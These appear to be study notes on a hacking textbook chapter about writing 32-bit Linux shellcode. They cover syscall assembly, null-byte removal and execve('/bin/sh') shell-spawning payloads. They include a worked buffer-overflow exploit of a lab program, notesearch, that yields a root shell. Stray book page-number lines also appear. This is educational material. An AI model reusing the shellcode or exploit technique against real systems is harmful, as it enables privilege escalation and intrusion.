

Also sometimes referred to as an exploit **payload**, since these self-contained programs do the real work once a program has been hacked. Shellcode usually spawns a shell, as that is an elegant way to hand off control; but it can do anything a program can do.

>[!warning]
>The shellcode bytes are actually architecture-specific machine instructions

# Linux System Calls in Assembly

Every possible Linux system call is enumerated, so they can be referenced by numbers when making the calls in assembly.
These syscalls are listed in `/usr/include/asm-i386/unistd.h`:

```c
#ifndef _ASM_I386_UNISTD_H_
#define _ASM_I386_UNISTD_H_
/*
* This file contains the system call numbers.
*/
#define __NR_restart_syscall 0
#define __NR_exit 1
#define __NR_fork 2
#define __NR_read 3
#define __NR_write 4
#define __NR_open 5
#define __NR_close 6
...
```

`helloworld.asm`:

```asm6502
section .data ; Data segment
msg db "Hello, world!", 0x0a 	; The string and newline char

section .text 					; Text segment
global _start 					; Default entry point for ELF linking

_start:
; SYSCALL: write(1, msg, 14)
mov eax, 4 			; Put 4 into eax, since write is syscall #4.
mov ebx, 1 			; Put 1 into ebx, since stdout is 1.
mov ecx, msg 		; Put the address of the string into ecx.
mov edx, 14 		; Put 14 into edx, since our string is 14 bytes.
int 0x80 			; Call the kernel to make the system call happen.

; SYSCALL: exit(0)
mov eax, 1 			; Put 1 into eax, since exit is syscall #1.
mov ebx, 0 			; Exit with success.
int 0x80 			; Do the syscall.
```

# Shellcode coding 101

Since shellcode isn’t really an executable program, we don’t have the luxury of declaring the layout of data in memory or even using other memory segments. Our instructions must be self-contained and ready to take over control of the processor regardless of its current state. This is commonly referred to as position-independent code.

```asm6502
BITS 32 ; Tell nasm this is 32-bit code.
call mark_below ; Call below the string to instructions
db "Hello, world!", 0x0a, 0x0d ; with newline and carriage return bytes.
mark_below:
; ssize_t write(int fd, const void *buf, size_t count);
pop ecx ; Pop the return address (string ptr) into ecx.
mov eax, 4 ; Write syscall #.
mov ebx, 1 ; STDOUT file descriptor
mov edx, 15 ; Length of the string
int 0x80 ; Do syscall: write(1, string, 14)
; void _exit(int status);
mov eax, 1 ; Exit syscall #
mov ebx, 0 ; Status = 0
int 0x80 ; Do syscall: exit(0)
```

Become:

```bash
reader@hacking:~/booksrc $ nasm helloworld1.s
reader@hacking:~/booksrc $ ls -l helloworld1
-rw-r--r-- 1 reader reader 50 2007-10-26 08:30 helloworld1
reader@hacking:~/booksrc $ hexdump -C helloworld1
00000000 e8 0f 00 00 00 48 65 6c 6c 6f 2c 20 77 6f 72 6c |.....Hello, worl|
00000010 64 21 0a 0d 59 b8 04 00 00 00 bb 01 00 00 00 ba |d!..Y...........|
00000020 0f 00 00 00 cd 80 b8 01 00 00 00 bb 00 00 00 00 |................|
00000030 cd 80 |..|
00000032
reader@hacking:~/booksrc $ ndisasm -b32 helloworld1
00000000 E80F000000 call 0x14
00000005 48 dec eax
00000006 656C gs insb
00000008 6C insb
00000009 6F outsd
0000000A 2C20 sub al,0x20
0000000C 776F ja 0x7d
0000000E 726C jc 0x7c
00000010 64210A and [fs:edx],ecx
00000013 0D59B80400 or eax,0x4b859
00000018 0000 add [eax],al
0000001A BB01000000 mov ebx,0x1
0000001F BA0F000000 mov edx,0xf
00000024 CD80 int 0x80
00000026 B801000000 mov eax,0x1
0000002B BB00000000 mov ebx,0x0
00000030 CD80 int 0x80
```

## Removing Null Bytes

### two’s complement

A small negative number will have its leading bits turned on, resulting in `0xff` bytes. This means that, if we call using a negative value to move backward in execution, the machine code for that instruction won’t have any null bytes.

```asm6502
BITS 32 ; Tell nasm this is 32-bit code.
jmp short one ; Jump down to a call at the end.
two:
; ssize_t write(int fd, const void *buf, size_t count);
pop ecx ; Pop the return address (string ptr) into ecx.
mov eax, 4 ; Write syscall #.
mov ebx, 1 ; STDOUT file descriptor
mov edx, 15 ; Length of the string
int 0x80 ; Do syscall: write(1, string, 14)
; void _exit(int status);
mov eax, 1 ; Exit syscall #
mov ebx, 0 ; Status = 0
int 0x80 ; Do syscall: exit(0)
one:
call two ; Call back upwards to avoid null bytes
db "Hello, world!", 0x0a, 0x0d ; with newline and carriage return bytes.
```

```bash
reader@hacking:~/booksrc $ nasm helloworld2.s
reader@hacking:~/booksrc $ ndisasm -b32 helloworld2
00000000 EB1E jmp short 0x20
00000002 59 pop ecx
00000003 B804000000 mov eax,0x4
00000008 BB01000000 mov ebx,0x1
0000000D BA0F000000 mov edx,0xf
00000012 CD80 int 0x80
00000014 B801000000 mov eax,0x1
00000019 BB00000000 mov ebx,0x0
0000001E CD80 int 0x80
00000020 E8DDFFFFFF call 0x2
00000025 48 dec eax
00000026 656C gs insb
00000028 6C insb
292 0x500
00000029 6F outsd
0000002A 2C20 sub al,0x20
0000002C 776F ja 0x9d
0000002E 726C jc 0x9c
00000030 64210A and [fs:edx],ecx
00000033 0D db 0x0D
```

### Using the right registers

```asm6502
EB 1E 				jmp short 0x20
E9 1E 00 00 00 		jmp 0x23

Machine code Assembly
B8 04 00 00 00 		mov eax,0x4
66 B8 04 00 		mov ax,0x4
B0 04 				mov al,0x4
```

### Zero registers using XOR

```asm6502
31 C0 xor eax,eax
```

## Final shellcode

```asm6502
BITS 32 ; Tell nasm this is 32-bit code.
jmp short one ; Jump down to a call at the end.
two:
; ssize_t write(int fd, const void *buf, size_t count);
pop ecx ; Pop the return address (string ptr) into ecx.
xor eax, eax ; Zero out full 32 bits of eax register.
mov al, 4 ; Write syscall #4 to the low byte of eax.
xor ebx, ebx ; Zero out ebx.
inc ebx ; Increment ebx to 1, STDOUT file descriptor.
xor edx, edx
mov dl, 15 ; Length of the string
int 0x80 ; Do syscall: write(1, string, 14)
; void _exit(int status);
mov al, 1 ; Exit syscall #1, the top 3 bytes are still zeroed.
dec ebx ; Decrement ebx back down to 0 for status = 0.
int 0x80 ; Do syscall: exit(0)
one:
call two ; Call back upwards to avoid null bytes
db "Hello, world!", 0x0a, 0x0d ; with newline and carriage return bytes.
```

```bash
reader@hacking:~/booksrc $ nasm helloworld3.s
reader@hacking:~/booksrc $ hexdump -C helloworld3 | grep --color=auto 00
00000000 eb 13 59 31 c0 b0 04 31 db 43 31 d2 b2 0f cd 80 |..Y1...1.C1.....|
00000010 b0 01 4b cd 80 e8 e8 ff ff ff 48 65 6c 6c 6f 2c |..K.......Hello,|
00000020 20 77 6f 72 6c 64 21 0a 0d | world!..|
00000029
```

# Shell-spawning Shellcode

To spawn a shell, we just need to make a system call to execute the `/bin/sh` shell program. System call number 11, `execve()`, is similar to the C `execute()` function.



- The **first argument** of the filename should be a pointer to the string "/bin/sh" , since this is what we want to execute.
- The **environment array** (the third argument) can be empty, but it still need to be terminated with a 32-bit null pointer.
- The **argument array** (the second argument) must be null-terminated, too; it must also contain the string pointer (since the zeroth argument is the name of the running program).

Done in C, a program making this call would look like this:

```c
#include <unistd.h>

int main() {
	char filename[] = "/bin/sh\x00";
	char **argv, **envp; // Arrays that contain char pointers
	
	argv[0] = filename; // The only argument is filename.
	argv[1] = 0; // Null terminate the argument array.
	envp[0] = 0; // Null terminate the environment array.
	
	execve(filename, argv, envp);
}
```

To do this in assembly, the argument and environment arrays need to be built in memory. In addition, the "/bin/sh" string needs to be terminated with a null byte. This must be built in memory as well. Dealing with memory in assembly is similar to using pointers in C. The lea instruction, whose name stands for load effective address, works like the address-of operator in C.

```asm6502
BITS 32

	jmp short two 		; Jump down to the bottom for the call trick.
one:
; int execve(const char *filename, char *const argv [], char *const envp[])
	pop ebx 			; Ebx has the addr of the string.
	xor eax, eax 		; Put 0 into eax.
	mov [ebx+7], al 	; Null terminate the /bin/sh string.
	mov [ebx+8], ebx 	; Put addr from ebx where the AAAA is.
	mov [ebx+12], eax 	; Put 32-bit null terminator where the BBBB is.
	lea ecx, [ebx+8] 	; Load the address of [ebx+8] into ecx for argv ptr.
	lea edx, [ebx+12] 	; Edx = ebx + 12, which is the envp ptr.
	mov al, 11 			; Syscall #11
	int 0x80 			; Do it.
	
two:
	call one ; Use a call to get string address.
	db '/bin/shXAAAABBBB' ; The XAAAABBBB bytes aren't needed.
```

```bash
reader@hacking:~/booksrc $ nasm exec_shell.s
reader@hacking:~/booksrc $ wc -c exec_shell
36 exec_shell
reader@hacking:~/booksrc $ hexdump -C exec_shell
00000000 eb 16 5b 31 c0 88 43 07 89 5b 08 89 43 0c 8d 4b |..[1..C..[..C..K|
00000010 08 8d 53 0c b0 0b cd 80 e8 e5 ff ff ff 2f 62 69 |..S........../bi|
00000020 6e 2f 73 68 |n/sh|
00000024
reader@hacking:~/booksrc $ export SHELLCODE=$(cat exec_shell)
reader@hacking:~/booksrc $ ./getenvaddr SHELLCODE ./notesearch
SHELLCODE will be at 0xbffff9c0
reader@hacking:~/booksrc $ ./notesearch $(perl -e 'print "\xc0\xf9\xff\xbf"x40')
[DEBUG] found a 34 byte note for user id 999
[DEBUG] found a 41 byte note for user id 999
[DEBUG] found a 5 byte note for user id 999
[DEBUG] found a 35 byte note for user id 999
[DEBUG] found a 9 byte note for user id 999
[DEBUG] found a 33 byte note for user id 999
-------[ end of note data ]-------
298 0x500
sh-3.2# whoami
root
sh-3.2#
```

The same result with a smaller size can be obtained using ESP instead of registers inside the shellcode:

```asm6502
BITS 32
; execve(const char *filename, char *const argv [], char *const envp[])
xor eax, eax 			; Zero out eax.
push eax 				; Push some nulls for string termination.
push 0x68732f2f 		; Push "//sh" to the stack.
push 0x6e69622f 		; Push "/bin" to the stack.
mov ebx, esp 			; Put the address of "/bin//sh" into ebx, via esp.
push eax 				; Push 32-bit null terminator to stack.
mov edx, esp 			; This is an empty array for envp.
push ebx 				; Push string addr to stack above null terminator.
mov ecx, esp 			; This is the argv array with string ptr.
mov al, 11 				; Syscall #11.
int 0x80 				; Do it.
```